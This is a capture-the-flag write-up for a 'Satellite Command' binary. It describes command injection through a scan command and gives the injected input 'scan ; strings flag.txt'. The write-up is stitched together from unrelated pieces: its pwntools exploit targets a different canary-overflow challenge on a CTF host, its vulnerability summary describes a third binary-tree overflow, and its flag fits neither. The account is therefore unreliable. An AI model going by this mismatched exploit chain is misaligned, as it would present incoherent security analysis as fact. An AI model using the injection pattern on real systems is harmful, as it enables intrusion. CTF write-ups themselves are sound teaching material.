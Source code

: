 # Satellite Command - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/SatelliteCommand.gif)

---

## Challenge Summary

The binary simulates a satellite command interface with several options, including a `scan` command that takes a directory name as input and internally constructs a shell command like:

```
ls -l ./satellite/<user_input>
```

The program then executes it using `system()`. Although it checks for blocked terms via `is_blocked()`, if `flag.txt` is not filtered or if the filter is bypassable. Due to unsanitized input, it's possible to inject shell metacharacters such as ; to execute arbitrary commands

---

## Binary Information

```bash
$ file challenge
```

![Alt text](img/2.png)

```bash
$ pwn checksec challenge
```

![Alt text](img/3.png)

---

## Static Analysis (IDA Pro)

In IDA Pro, the `main()` function reveals a loop-based command handler that reads user input using `fgets()` into a 128-byte buffer. The input is then compared against several command strings (`help`, `status`, `scan`, etc.).

For the `scan` command:

- The input is parsed and passed to `snprintf()` to build a shell command:

  ```c
  snprintf(
                (unsigned int)v26,
                256,
                (unsigned int)"ls -l ./satellite/%s 2>/dev/null",
                (unsigned int)v25,
                v11,
                v12,
                (char)v25);
  ```

- This command is then executed with `system()`.

Before execution, the input is checked by a function called `is_blocked()`, which attempts to detect blacklisted terms. However, this filter can potentially be bypassed using shell metacharacters (e.g., `;`) or obfuscated input.

Because the `system()` call is based on unsanitized user input, the program is vulnerable to **command injection**, allowing unintended command execution like `strings flag.txt`.

---

## Exploit Strategy

To exploit the vulnerability, supply a crafted input using shell metacharacters via the `scan` command. For example:

```
scan ; strings flag.txt
```

This input causes the program to construct and execute:

```
ls -l ./satellite/; strings flag.txt 2>/dev/null
```

Since the input is passed directly to `system()` without proper sanitization, the injected `strings flag.txt` command executes after the semicolon. If `is_blocked()` does not filter `;` or if it can be bypassed, the attacker gains arbitrary command execution and can read the flag.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template canary_in_the_bitcoin_mine --host host3.metaproblems.com --port 5980
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'canary_in_the_bitcoin_mine')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host3.metaproblems.com'
port = int(args.PORT or 5980)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

BUFFER = b'A' * 64
CANARY = b'BIRD'
EARNED_FLAG = b'true'

payload = flat(
        BUFFER,
        CANARY,
        EARNED_FLAG
)
io.sendline(payload)
io.recvuntil(b"Well done, you've earned the flag!")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")


```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The binary parses strings representing binary trees and stores them in a stack-allocated array. It calculates the required buffer size by counting the number of nodes and assuming the tree is fully balanced. However, this logic fails when the tree is **deep and sparse** (e.g., having only right children), where the **depth exceeds the allocated array size**.

As a result, during deserialization, the program writes **beyond the bounds of the stack buffer**, causing a **stack-based buffer overflow**. Because the stack layout places the return address near the end of the array, carefully crafted input can be used to **partially overwrite the return address**. Although stack canaries are present and **ASLR is enabled**, the attacker leverages:

- **A hidden `debug_shell()` function** (ret2win-style exploitation).
- **Partial return address overwrite** (only lower 2 bytes needed).
- **Brute-force guessing** (\~16 tries on average due to 4 bits of entropy).

This leads to reliable control of execution flow and ultimately a shell, allowing retrieval of the flag.

---

## Flag

```
MetaCTF{0h_chr1stm4s_tr33_h0w_l0v3ly_4r3_y0ur_br4nch3s}
```
